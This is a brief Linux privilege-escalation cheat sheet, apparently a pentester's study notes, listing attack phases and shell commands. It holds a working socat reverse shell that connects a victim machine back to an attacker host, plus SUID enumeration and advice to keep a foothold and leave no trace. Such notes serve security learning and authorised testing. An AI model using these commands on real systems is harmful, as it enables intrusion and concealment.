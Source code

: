 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell

python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg


## Get reverse shell

atk:
socat file:`tty`,raw,echo=0 tcp-listen:4444
victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444


## Useful enumeration comands
### List all processes runing as root
```
ps -aux | grep root
```
### List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
### Start a quick HTTP server
```
python3 -m http.server [PORT]
```
## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```

